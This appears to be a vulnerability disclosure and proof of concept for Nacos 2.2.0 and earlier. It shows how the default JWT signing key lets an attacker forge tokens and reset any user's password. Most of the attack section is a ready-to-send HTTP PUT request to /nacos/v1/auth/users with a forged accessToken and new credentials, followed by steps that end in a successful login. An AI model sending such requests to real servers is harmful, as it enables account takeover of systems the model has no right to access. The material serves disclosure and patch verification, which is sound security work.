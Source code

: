 #### Vuln Impact 

An issue has been discovered in Nacos affecting Nacos <= 2.2.0. When a user uses the default JWT Key, it will cause an attacker to reset the password of any user and take over the user account.

#### Vuln Product

Nacos <= 2.2.0 version

#### Vulnerability reappearance

Step 1：Get username (can use old vulnerability or guess)

![getuser](img/getuser.png)

Step 2：restpassword

```javascript
PUT /nacos/v1/auth/users HTTP/1.1
Host: xx.xx.xxx.xx
Content-Length: 33
Accept: application/json, text/plain, */*
accessToken: eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhbDFleCIsImV4cCI6MTY2ODA4OTk2N30.hv0MWlHISYCgvIDQhidQBCeyYb7tbG0JrbNyx-9kDzc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=
Connection: close

username=al1ex&newPassword=al22ex
```

![reset](img/reset.png)

Step 3: Log in successfully

![logins](img/logins.png)







